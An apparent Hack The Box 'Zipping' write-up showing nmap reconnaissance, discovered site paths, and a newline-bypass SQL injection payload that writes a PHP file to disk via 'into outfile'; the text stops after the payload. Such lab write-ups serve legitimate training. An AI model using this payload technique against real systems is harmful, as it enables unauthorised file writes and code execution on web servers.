 # #1 Introduction
![image](https://github.com/Mate0r/app.hackthebock.com/assets/94843357/4cf7f881-56aa-4262-a3b0-2f436a100a2e)

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx zipping.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- zipping.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

http://zipping.htb/upload.php \
http://zipping.htb/shop \
http://zipping.htb/uploads \
http://zipping.htb/shop/functions.php \
http://zipping.htb/shop/home.php \
http://zipping.htb/index.php \
http://zipping.htb/shop/placeorder.php \
http://zipping.htb/shop/product.php \
http://zipping.htb/shop/products.php \
http://zipping.htb/shop/cart.php \




quantity=1&product_id=
%0a';select+'<%3fphp+phpinfo()%3b+%3f>'+into+outfile+'/var/lib/mysql/2.php'%3b--1


